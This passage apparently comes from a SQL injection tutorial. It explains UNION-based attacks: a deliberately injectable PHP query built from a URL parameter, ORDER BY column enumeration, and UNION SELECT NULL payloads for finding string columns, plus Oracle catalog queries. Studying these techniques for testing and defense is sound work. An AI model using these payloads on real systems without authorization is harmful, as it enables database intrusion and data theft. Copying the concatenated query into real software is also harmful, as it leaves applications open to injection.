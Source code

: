 ### Listing contents of an Oracle database

On Oracle, you can find the same information as follows: 

```
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

# Union Attack

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the `UNION` keyword can be used to retrieve data from other tables within the database.

MySQL syntax for the example:

```
$sql = "SELECT id, name, text FROM example WHERE id=" . $_GET['id'];
```

## Column Number Enumeration

After detect that the application is vulnerable to SQLi we need to know how many columns are queried. To do that task we are going to use order by to guess the number of columns retrieved. The idea is to increment the number until get an error.

```
/index.php?id=1 order by 1
/index.php?id=1 order by 2
/index.php?id=1 order by 3
/index.php?id=1 order by 4 - ERROR
```

## Finding Columns with a useful data type

Now that we know how many columns are in the table, we can use this information to retrieve information. But we need to before understand where this information will be displayed, so we are going to set parameteres to that fields.

```
/index.php?id=1 union all select NULL, NULL, NULL
```

> **Note**: The reason for using `NULL` as the values returned from the injected `SELECT` query is that the data types in each column must be compatible between the original and the injected queries. `NULL` is convertible to every commonly used data type.

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
If the data type of a column is not compatible with string data, the injected query will cause a database error.
